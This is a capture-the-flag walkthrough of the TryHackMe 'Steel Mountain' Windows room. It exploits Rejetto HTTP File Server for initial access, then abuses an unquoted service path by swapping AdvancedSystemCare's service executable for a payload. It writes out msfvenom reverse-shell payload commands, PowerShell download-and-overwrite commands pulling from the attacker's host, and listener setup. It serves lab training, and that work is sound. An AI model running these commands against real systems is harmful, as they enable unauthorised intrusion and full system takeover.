# Steel Mountain 
DIFFICULTY: EASY


# Introduction
**Room instructions**:
In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

If you don't have the right security tools and environment, deploy your own Kali Linux machine and control it in your browser, with our [Kali Room](https://tryhackme.com/room/kali).
# Initial Access
To kick off our reconnaissance, we initiate an Nmap scan to discover open ports and services on the target machine. 


From our scan we can see that port 80 is open and can deduct that it is a website so lets visit the site and see what's waiting for us.


Here we have a website displaying the Employee of the month. But what we need is the name of the employee of the month so lets try and get that. We can start by viewing the page source code or using the inspect element to see the name of the image.



From the source code we can find the name of the Employee of the month.

**Question 1**: "Scan the machine with nmap. What is the other port running a web server on". Looking back to our nmap scan we can see port **8080** is open and is running a http web server.

**Question 3:** "Take a look at the other web server. What file server is running?". Once we navigate to the second web server and click on the link as shown below we are met with the name of the file server which is **Rejetto Http File Server**




**Question 3**: "What is the CVE number to exploit this file server?".  A quick search on [exploitdb](https://www.exploit-db.com/) gives us our answer.



**Question 4**: "Use Metasploit to get an initial shell. What is the user flag?"

Now lets get to work * cracks knuckles *

Fisrt step is to start our metasploit and search "rejetto" there should be a module `exploit/windows/http/rejetto_hfs_exec` so we select that and move to the next step.

Next step is to list the options and set the required options as seen below.

Options:

Options set



As we can see the RHOSTS is our target host that is the Rejetto Http File Server, The RPORT is the target port which is **8080**. For the SRVHOST it will be our attack machine IP address this is basically the address where the exploit will be served on to be delivered on the target machine just like creating a python server to send a LinPeas script to a target machine but in this case we are sending the expliot **windows/webapps/49125.py** (which is already in metasploit's database) from our attack machine to the target machine. 
Now the LHOST is our listener IP address which in this case is our attack IP and the address we will use to setup a listener to catch the shell while the LPORT is just the port we want to listen on.

We then run the exploit and gain a meterpreter shell


Now to get the flag. Our initial access places us in this directory `C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

So from experience of previous CTFs we should know the flag might be in the user's desktop, documents folder or somewhere else. We then navigate to desktop directory of the user "bill" and cat the user.txt file to get the flag.


# Privilege Escalation
Now that you have an initial shell on this Windows machine as the user Bill, we can further enumerate the machine and escalate our privileges to NT AUTHORITY\\SYSTEM!

To enumerate this machine, we will use a powershell script called [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1), It's purpose is to evaluate a Windows machine and determine any abnormalities - "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations."

After downloading the PowerUp.ps1 Privilege Escalation script we can upload the script to our windows machine and enumerate for privilege escalation vectors that rely on misconfigurations.

To upload using meterpreter use the command:
```shell
upload /path/to/file
```


After that we need to run the script using powershell. To use powershell in meterpreter Run the following commands:

```shell
load powershell
powershell_shell
```


 We can then navigate to where we uploaded the script and execute it:
```powershell
cd path\to\script
. .\PowerUp.ps1
Invoke-AllCheck
```

This will then enumerate and print out results.


**Question 5**: "Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an _unquoted service path_ vulnerability?"

The result we are interested in it the one with the "CanRestart"  option set to True, which indicates that our current user has permissions to restart that service.


As we can see from the image above we have a modifiable path and write permissions to that directory. This means we can replace the ASCService.exe file there with our maliciously crafted payload, restart the service which will then run our infected program.

Next we craft our payload from our attack machine using msfvenom and name it the same name as the AdvanceSystemCareService executable which is "ASCService.exe":
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```


Now we stop the AdvancedSytemCareService9 from running so that we can replace the legitimate service with our malicious executable. Command to stop service:

```powershell
Stop-Service -Name "AdvacnedSystemCareService9"
```



As we can see the service has been stoppeed.

Now let's go back to our meterpreter shell to upload the payload to our target

```shell
upload /path/to/payload
```


Before we execute our payload by starting the service again, we need to first setup a multi handler to catch our new shell as NT Authority\\System. To do that we first background our current meterpreter shell using CTRL + Z and use the multi handler:

```shell
use exploit/multi/handler
```

Next we set the appropriate options like the same payload we created using msfvenom then set the Listener IP and Port.

```shell
set payload windows/shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
```



Run the exploit in the background and enter into our previous meterpreter session:
```shell
exploit -j
```


Back in our powershell shell (lol) we can now start the service AdvancedSystemCareService9 and it'll execute our malicious payload executable rather than the legitimate service since we have already replaced it.

```powershell
Start-Service -Name "AdvanceSystemCareService9"
```



As we can see from the image above it has created an NT Authority\\System level shell. Let's take a look.

We first background our current shell and enter into the new shell.



Bingo!.

Now to find the flag. It'll most probably be in the Administrator's Desktop.

# Access and Escalation without Metasploit
Now let's complete the room without the use of Metasploit.

For this we will utilise powershell and [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) to enumerate the system and collect the relevant information to escalate to

The aim here is to try and get access to the machine and perform privilege escalation without metasploit.

The first step is to download the [exploit](https://www.exploit-db.com/exploits/39161) we were given to use.

Note: make sure to download all files in 1 directory to make things easier.

Let's begin!

After getting the exploit let's necessary settings. First is the IP address of our attack machine and port number we want to listen on to get the shell.




Take note of the this statement. We will need to run a python server on port 80 in the same directory as our netcat [binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe) file. If you already have a service running on port 80 like i did in my case you can just stop the service using:

```shell
sudo systemctl stop <service_name>
```



Next step is to start a python server in the directory as our netcat binary. When the exploit is ran it will need a server hosting the file in order to transfer it to the target machine. We will then run the exploit a second time to execute the file and gain a shell once our netcat listener is set to that the specified port which in my case was **4443** in order catch the shell.


Next step is to transfer a winPEAS script to autotmate our Privilege Escalation Enumeration and then run the script.

Command to transfer the script form our attack machine to our target machine:
```powershell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/winPEASx64.exe', 'C:\\Windows\temp\winPEASx64.exe')"
```
Command to execute the script:
```powershell
.\winPEASx64.exe
```



Now lets take a look at our winPEAS scan. We can see that there is an Unquoted service path  and that we have write access to 
```
C:\Program Files (x86)\IObit\Advanced SystemCare\
```
In that directory there is a service executable "ASCService.exe" that we can abuse by replacing this with a malicious file which will give us a reverse shell.


 All we need to do is to create a windows reverse shell payload  using msfvenom and save it into a file with the same name as the service "ASSCService.exe". Then in order to upload and replace the legitimate file with our malicious payload file we need to first of all stop the **AdvancedSystemCareService9** service, then upload our payload into the same directory in order to overwrite the existing file.

Let's first create our payload using msfvenom:
```shell
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```


 Now lets stop the service  **AdvancedSystemCareService9**:
```shell
powershell -c "Stop-Service -Name 'AdvancedSystemCareService9' -Force"
```

And now transfer our payload to overwrite the file:
```shell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://<IP>:<PORT>/ASCService.exe', 'C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe')"
```

Setup a netcat listener and start the service:

```shell
nc -lvnp 4443
```

```powershell
powershell -c "Start-Service -Name 'AdvancedSystemCareService9'"
```

and bingo! we have a shell NT Authority\\System.




GGs! 🤝
